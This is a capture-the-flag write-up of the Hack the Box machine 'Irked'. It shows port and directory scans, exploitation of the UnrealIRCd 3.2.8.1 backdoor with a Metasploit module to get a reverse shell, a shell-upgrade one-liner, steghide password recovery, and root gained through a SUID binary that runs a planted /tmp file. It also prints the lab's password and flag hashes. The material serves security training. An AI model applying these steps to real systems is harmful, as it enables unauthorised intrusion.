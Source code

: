 # Irked - Hack the Box

First things first.

## Nmap Scan

`nmap -p 1-65535 -T4 -A -v irked`

### Results
    PORT      STATE SERVICE VERSION
    22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
    | ssh-hostkey:
    |   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
    |   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
    |   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
    |_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
    80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
    | http-methods:
    |_  Supported Methods: POST OPTIONS GET HEAD
    |_http-server-header: Apache/2.4.10 (Debian)
    |_http-title: Site doesn't have a title (text/html).
    111/tcp   open  rpcbind 2-4 (RPC #100000)
    | rpcinfo:
    |   program version    port/proto  service
    |   100000  2,3,4        111/tcp   rpcbind
    |   100000  2,3,4        111/udp   rpcbind
    |   100000  3,4          111/tcp6  rpcbind
    |   100000  3,4          111/udp6  rpcbind
    |   100024  1          37348/udp6  status
    |   100024  1          54019/tcp6  status
    |   100024  1          56241/tcp   status
    |_  100024  1          59939/udp   status
    6697/tcp  open  irc     UnrealIRCd
    8067/tcp  open  irc     UnrealIRCd
    56241/tcp open  status  1 (RPC #100024)
    65534/tcp open  irc     UnrealIRCd


Let's run dirb on the website.

## Dirb Scan

`dirb http://irked`

### Results
    dirb http://irked

    -----------------
    DIRB v2.22    
    By The Dark Raver
    -----------------

    START_TIME: Tue Mar 17 17:49:51 2020
    URL_BASE: http://irked/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

    -----------------

    GENERATED WORDS: 4612                                                          

    ---- Scanning URL: http://irked/ ----
    + http://irked/index.html (CODE:200|SIZE:72)                                                             
    ==> DIRECTORY: http://irked/manual/                                                                      
    + http://irked/server-status (CODE:403|SIZE:293)   


Nothing really to investigate here. The main page mentions a IRC being worked on.


## IRC Investigation

I googled how to connect to IRC channel. There was multiple programs to connect from the terminal. I used Irssi. So used `irssi -c irked -p 65534`. While connecting it showed the software and version:

    Your host is irked.htb, running version Unreal3.2.8.1

I tried to list all the info (users, channels, etc.) it seemed to be empty. We can still see if there are any CVEs for Unreal 3.2.8.1.


## CVE Investigation

**Apache** - No CVEs

**IRC Unreal 3.2.8.1** - `exploit/unix/irc/unreal_ircd_3281_backdoor UnrealIRCD 3.2.8.1 Backdoor Command Execution`

## Metasploit

I used the the exploit/unix/irc/unreal_ircd_3281_backdoor. I entered the hostname and port (irked / 65534).

I got a reverse shell. I was the user *ircd*.

### Enumeration Findings

- User: *djmardov*
- User: *ircd*
- OS: *Linux irked 3.16.0-6-686-pae #1 SMP Debian 3.16.56-1+deb8u1 (2018-05-08) i686 GNU/Linux*

#### Note
*I used a python script to upgrade the TTY:*

`python -c 'import pty;pty.spawn("/bin/bash")'`

### Priv Esc

I found the user.txt file under djmardov's permissions. I need to esc my privs.

I send my session to the background with:

`background`.

I want to use meterpreter to upgrade my privs:

`use multi/manage/shell_to_meterpreter`

I saw that I had privs for .backup file

`ircd@irked:/home/djmardov/Documents$ ls -la`

    total 16
    drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
    drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 ..
    -rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
    -rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
    ircd@irked:/home/djmardov/Documents$ cat .backup
    cat .backup
    Super elite steg backup pw
    UPupDOWNdownLRlrBAbaSSss

I mentions steg so I used steghide on the emoji image on the website

`steghide extract -sf irked.jpeg`

That uncovered a password (presumably djmardov's). I switched to that user

`ircd@irked:/home/djmardov/Documents$ su djmardov
Password: Kab6h+m+bbp2J:HG`

Then I read that *user.txt* file

    4a66a78b12dc0e661a59d3f5c0267a8e

### Getting Root Access

Need Priv Esc so with some help I found the viewusers had a vuln where it made system calls from a file that did not exist.

The viewusers exec as root so we created a file that spawned a shell. This gave us a root shell.

    djmardov@irked:~$ cd /tmp
    djmardov@irked:/tmp$ vi listusers
    djmardov@irked:/tmp$ chmod +x listusers
    djmardov@irked:/tmp$ viewuser
    This application is being devleoped to set and test user permissions
    It is still being actively developed
    (unknown) :0           2020-03-17 17:47 (:0)
    djmardov pts/1        2020-03-19 16:19 (10.10.14.32)
    root@irked:/tmp# ls
    listusers                                                               systemd-private-4a996098bfb54342ac1fb0c28ab9c9ab-rtkit-daemon.service-W8JGaP
    systemd-private-4a996098bfb54342ac1fb0c28ab9c9ab-colord.service-0h2zYE  vmware-root
    systemd-private-4a996098bfb54342ac1fb0c28ab9c9ab-cups.service-Cg0OtI
    root@irked:/tmp# cd /root
    root@irked:/root# ls
    pass.txt  root.txt
    root@irked:/root# cat root.txt
    8d8e9e8be64654b6dccc3bff4522daf3
    root@irked:/root#
